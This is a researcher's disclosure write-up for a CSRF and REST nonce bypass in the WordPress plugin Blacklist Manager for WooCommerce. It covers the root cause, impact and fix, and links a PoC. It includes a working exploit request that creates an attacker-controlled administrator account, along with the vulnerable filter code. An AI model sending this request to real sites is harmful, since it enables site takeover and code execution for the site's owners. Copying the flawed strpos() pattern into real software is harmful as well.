


| | |
|---|---|
| CVE | [CVE-2026-96838](https://www.cve.org/CVERecord?id=CVE-2026-96838) |
| Plugin | Blacklist Manager for WooCommerce (`wc-blacklist-manager`) |
| Affected | <= 2.3.1 |
| Fixed in | 2.3.2 |
| Severity | CVSS 8.8 High |
| Attacker needs | no account on the target, but a logged in administrator must open a page I control |
| Advisory | [Patchstack](https://patchstack.com/database/wordpress/plugin/wc-blacklist-manager/vulnerability/wordpress-blacklist-manager-8211-woocommerce-anti-fraud-blacklist-amp-checkout-verification-plugin-2-3-1-cross-site-request-forgery-csrf-vulnerability) |
| PoC | [Mor-Golan/CVE-2026-96838-wc-blacklist-manager](https://github.com/Mor-Golan/CVE-2026-96838-wc-blacklist-manager) |

## Summary

Blacklist Manager for WooCommerce registers a filter on `rest_authentication_errors` that
discards WordPress's authentication error whenever a fixed string appears anywhere in the
raw request URI, including inside the value of an unrelated query parameter. That removes the
REST nonce check, which is WordPress's only protection against cross site request forgery for
cookie authenticated REST requests, from every REST route on the site rather than from the
plugin's own route. A page I control can then drive a logged in victim's browser into forging
a REST request that runs under the victim's own session. Against an administrator victim a
single top level navigation creates a new administrator account that I control, which carries
`install_plugins`, `edit_plugins` and `edit_themes` and therefore reaches arbitrary PHP
execution on the host.

## Root cause

The plugin adds a filter on `rest_authentication_errors` at priority 999. When WordPress core
has already produced a `WP_Error` for a failed cookie nonce check, the filter throws that
error away and returns `null`, which tells `WP_REST_Server` that authentication succeeded. It
does so whenever the raw `REQUEST_URI` merely contains a literal string:

```php
// wc-blacklist-manager/inc/cores/api/yogb/yogb-register.php
add_filter('rest_authentication_errors', function ($result) {
    if ( is_wp_error($result) ) {
        $prefix = '/' . rest_get_url_prefix() . '/blacklist/v1/challenge/';
        $uri = $_SERVER['REQUEST_URI'] ?? '';
        if ( strpos($uri, $prefix) !== false ) {
            return null; // clear the block for our route
        }
    }
    return $result;
}, 999);
```

The test is an unanchored `strpos()` on the raw URI. It never resolves the route, never
decodes the URI and never binds the match to the path, so the string can sit in the value of
an unrelated query parameter on a completely different endpoint. Returning `null` asserts
"authenticated" for the whole request, and the request then dispatches under whatever identity
the session cookie already carried.

The filter registers on every request. The plugin instantiates its backend at file scope, and
the constructor pulls in the file that registers this filter before any premium or option
check runs. There is no `is_admin()` check, no capability check and no WooCommerce check on
that path. WooCommerce was not installed in my lab and the plugin declares no required plugin
dependency.

One detail decides whether a retest reproduces this. The nonce has to be present and invalid.
If the nonce is omitted entirely, core takes an earlier branch that resets the identity to 0
and returns `true` on its own, so no `WP_Error` is ever created and the plugin's filter has
nothing to discard:

```php
// wp-includes/rest-api.php
if ( null === $nonce ) {
    // No nonce at all, so act as if it's an unauthenticated request.
    wp_set_current_user( 0 );
    return true;
}
```

Any junk nonce value works, and the attacker chooses it, so this is a fact about how the
request is built rather than a barrier.

## Proof of concept

I reproduced this on a stock WordPress with `wc-blacklist-manager` 2.3.1 active and nothing
else configured. The victim is a logged in administrator. The attacker is a page on a
different site that holds no account and no token.

The working vector is a top level GET navigation that carries `_method=POST`, so core
dispatches it as a POST. Core reads the verb straight from the query string with no transport
check and no origin check:

```php
// wp-includes/rest-api/class-wp-rest-server.php
if ( isset( $_GET['_method'] ) ) {
    $request->set_method( $_GET['_method'] );
}
```

A top level navigation is used because WordPress emits no `SameSite` attribute on its logged
in cookies, so the browser applies its own `SameSite=Lax` default. Lax sends the session
cookie on a cross site top level navigation at any cookie age, while it withholds it on a
cross site POST once the cookie is older than the browser's roughly two minute grace window.
The navigation therefore has no timing precondition.

The exploit request, against `localhost:8080`:

```http
GET /index.php?rest_route=/wp/v2/users&_method=POST&_wpnonce=0&username=wcbm_poc&email=wcbm_poc@example.invalid&password=Xk9!qz_Lab_2026&roles[]=administrator&pad=/wp-json/blacklist/v1/challenge/ HTTP/1.1
Host: localhost:8080
Cookie: wordpress_logged_in_<hash>=<the administrator's session>
```

This answered `HTTP 201 Created` and returned the new user with `"roles":["administrator"]`.
The only difference between that request and a refused one is a single junk query parameter.
The same request with the `pad` parameter removed answers `HTTP 403` with
`rest_cookie_invalid_nonce` and creates nothing, and the same request with the plugin
deactivated is also refused, which isolates the cause to this plugin.

The attacker page builds that URL and performs one navigation:



The server's response naming the new administrator and its full capability set:



The full runnable PoC, an attacker page and a curl differential, is in the
[PoC repo](https://github.com/Mor-Golan/CVE-2026-96838-wc-blacklist-manager).

## Impact

Any page I control can cause a logged in visitor's browser to issue cookie authenticated REST
calls that WordPress would otherwise reject for want of a valid nonce. I need no account, no
credential and no token on the target.

Against an administrator victim this is site takeover. One cross site navigation created an
attacker controlled administrator in my lab, carrying `install_plugins`, `edit_plugins` and
`edit_themes`, which reaches arbitrary PHP execution on the host. Against a lower privileged
victim the same primitive reads and writes that victim's own account. In my lab a subscriber
session read its own edit context record and wrote a canary string into its own profile
through the same bypass. The nonce check this removes is WordPress's only defence for cookie
authenticated REST requests, and it is removed for the whole site.

## Fix

Update to 2.3.2. The safe behaviour is never to overrule core's cookie check from this filter,
and never to return `null`, because that value asserts "authenticated" for the whole request
whatever route is being served:

```php
add_filter('rest_authentication_errors', function ($result) {
    return $result;   // never overrule core's cookie check on its behalf
}, 999);
```

If the challenge route genuinely has to answer without a REST nonce, scope that to the route
itself with its own `permission_callback` that validates the plugin's own shared secret, and
compare against the route WordPress actually resolved rather than running `strpos()` against
`$_SERVER['REQUEST_URI']`.

## Timeline

- 2026-09-05: I found and reproduced the issue in an isolated local WordPress lab.
- 2026-09-30: CVE published.

## References

- [CVE-2026-96838](https://www.cve.org/CVERecord?id=CVE-2026-96838)
- [Patchstack advisory](https://patchstack.com/database/wordpress/plugin/wc-blacklist-manager/vulnerability/wordpress-blacklist-manager-8211-woocommerce-anti-fraud-blacklist-amp-checkout-verification-plugin-2-3-1-cross-site-request-forgery-csrf-vulnerability)
- [PoC repo](https://github.com/Mor-Golan/CVE-2026-96838-wc-blacklist-manager)
- [Plugin page](https://wordpress.org/plugins/wc-blacklist-manager/)
